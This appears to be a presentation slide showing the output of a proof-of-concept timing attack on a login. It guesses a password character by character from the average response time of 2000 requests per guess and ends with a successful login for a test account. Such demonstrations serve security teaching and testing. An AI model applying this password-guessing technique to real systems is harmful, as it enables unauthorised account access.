

# PoC Output - Final
Guessing password begins with: 'a'
Sending 2000 requests to the server for the password 'aa'
Total time to make 2000 requests for 'a' was 97.0304768085 seconds.
Sending 2000 requests to the server for the password 'ab'
Total time to make 2000 requests for 'b' was 97.8620438576 seconds.
Sending 2000 requests to the server for the password 'ac'
Total time to make 2000 requests for 'c' was 97.6188161373 seconds.
Sending 2000 requests to the server for the password 'ad'
Total time to make 2000 requests for 'd' was 97.6770935059 seconds.
Sending 2000 requests to the server for the password 'ae'
Total time to make 2000 requests for 'e' was 97.2542243004 seconds.
Average time per request for each password guess
a: 0.0485152384043
e: 0.0486271121502
c: 0.0488094080687
d: 0.0488385467529
b: 0.0489310219288
Guessing password begins with: 'ab'
Sending 2000 requests to the server for the password 'aba'
SUCCESS: Number of failed timing attack attempts before success: 17
Successfully logged in! Username: test Password: aba